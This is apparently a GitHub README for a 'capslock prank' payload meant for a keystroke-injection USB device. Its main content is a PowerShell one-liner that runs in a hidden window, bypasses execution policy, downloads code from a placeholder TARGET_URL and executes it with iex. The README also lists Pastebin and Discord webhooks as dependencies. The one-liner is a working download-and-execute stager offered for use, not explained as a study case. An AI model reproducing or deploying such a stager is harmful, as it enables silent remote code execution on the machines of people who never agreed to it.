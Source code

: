 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# simple_capslock_prank

## Description

## Getting Started

### Dependencies

- Pastebin or other file sharing service, Discord webhook or other webhook service
- Windows 10,11
- [Here](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks) is a tutorial on how to use Discord webhooks

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

- Plug in your device
- Define the `DEFINE TARGET_URL example.com`
- Device will download both files and place them in proper directories to then run the script

```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr TARGET_URL dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here:

[atomiczsec](https://github.com/atomiczsec) &
[I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

- 0.1
  - Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->

## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

- [Hak5](https://hak5.org/)
- [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
